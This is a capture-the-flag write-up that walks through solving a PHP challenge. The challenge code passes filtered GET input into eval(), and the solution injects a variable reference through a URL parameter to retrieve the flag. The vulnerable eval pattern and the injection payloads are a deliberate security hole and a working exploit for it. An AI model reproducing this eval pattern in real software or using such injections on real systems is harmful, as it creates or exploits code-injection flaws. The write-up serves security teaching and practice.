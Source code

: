# Challenge description

Dali likes PhP because it's weird and has a lot of bugs. Is that really true ?
Link: http://20.119.58.135:1234

**Author: Kahla**

-----------------------------------------------------------

we were provided this php source code

```php

<?php
//Show Page code source
highlight_file(__FILE__);
require "secret.php";
if(isset($_GET["__"])&&isset($_GET["_"])){
$x=$_GET["__"];
$inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
if($inp==="Kahla"){
    die("Hacking Attempt detected");
}
else{
    if(eval("return $inp=".$inp.";")==="Kahla"){
        echo $flag;
    }
    else{
        die("Pretty Close maybe ?");
    }
}
}
?>

```

trying to send **"Kahla"** in the **_** param prints out this prompt

Payload : ``` http://20.119.58.135:1234/?__=&_=Kahla ``` 

Output : 

![a](https://user-images.githubusercontent.com/58823465/151814781-7f079c2b-0cf4-42eb-8a71-250713e79fca.png)


We notice that we have the other `__` param too that we haven't trie to use yet 
and it seems sorta useless but its there soo we might as well just use it right?

So we know that the code is filtering the word **Kahla** and won't allow us to get the flag with it 
so how about we use the **__** to send it to the **_** param? since it's not verifying that param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$_GET[__] ```

Output : ![6](https://user-images.githubusercontent.com/58823465/151814811-b5b61141-c69c-47ba-a3dd-73827772fffc.png)


well i guess we're pretty close :/ ?
We can't use the **GET** to send the param because the regex won't allow the [] characters 
But notice that we have a **$x** variable in the source code that takes the **__** value !!
all we need to do is just to pass that through the **_** param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$x ```

Output : ``` Securinets{PeehPee_1s_AlWAYs_H3r3} ```

And there's our flag!





